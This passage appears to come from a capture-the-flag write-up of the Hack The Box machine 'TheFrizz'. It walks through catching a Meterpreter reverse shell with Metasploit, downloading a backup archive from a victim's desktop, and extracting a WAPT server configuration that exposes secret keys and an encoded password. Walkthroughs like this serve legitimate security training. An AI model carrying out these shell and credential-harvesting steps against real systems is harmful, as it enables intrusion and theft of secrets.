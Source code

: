Now we need to open metasploit with `exploit/multi/handler` and get our shell, make sure to set the payload to:

```
windows/meterpreter/reverse_tcp
```

Run the `meterpreter.exe` and you will get a shell:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616183827.png)

Now we can download our file:

```
download C:\\Users\\f.frizzle\\Desktop\\wapt-backup-sunday.7z
```

Now once we got our file, we need to unzip it:

```
7z x wapt-backup-sunday.7z
```

We will see this:

```
/AD/rooms/HTB/thefrizz/wapt$ ls
auth_module_ad.py   setuphelpers_linux.py     waptguihelper.pyd
cache               setuphelpers_macos.py     waptlicences.pyd
common.py           setuphelpers.py           waptmessage.exe
conf                setuphelpers_unix.py      waptpackage.py
conf.d              setuphelpers_windows.py   wapt.psproj
COPYING.txt         ssl                       waptpython.exe
db                  templates                 waptpythonw.exe
DLLs                trusted_external_certs    wapt-scanpackages.py
keyfinder.py        unins000.msg              waptself.exe
keys                version-full              waptserver.exe
languages           waptbinaries.sha256       waptservice.exe
lib                 waptconsole.exe.manifest  wapt-signpackages.py
licencing.py        waptcrypto.py             wapttftpserver
log                 wapt-enterprise.ico       wapttftpserver.exe
private             wapt-get.exe              wapttray.exe
__pycache__         wapt-get.exe.manifest     waptutils.py
revision.txt        wapt-get.ini              waptwua
Scripts             wapt-get.ini.tmpl         wgetwads32.exe
setupdevhelpers.py  wapt-get.py               wgetwads64.exe

/AD/rooms/HTB/thefrizz/wapt/conf$ ls
ca-192.168.120.158.crt  require_ssl_auth.conf  waptserver.ini.template
ca-192.168.120.158.pem  uwsgi_params
forward_ssl_auth.conf   waptserver.ini

```

As seen we got a `waptserver.ini` file, let's check it:

```
[options]
allow_unauthenticated_registration = True
wads_enable = True
login_on_wads = True
waptwua_enable = True
secret_key = ylPYfn9tTU9IDu9yssP2luKhjQijHKvtuxIzX9aWhPyYKtRO7tMSq5sEurdTwADJ
server_uuid = 646d0847-f8b8-41c3-95bc-51873ec9ae38
token_secret_key = 5jEKVoXmYLSpi5F7plGPB4zII5fpx0cYhGKX5QC0f7dkYpYmkeTXiFlhEJtZwuwD
wapt_password = IXN1QmNpZ0BNZWhUZWQhUgo=
clients_signing_key = C:\wapt\conf\ca-192.168.120.158.pem
clients_signing_certificate = C:\wapt\conf\ca-192.168.120.158.crt

[tftpserver]
```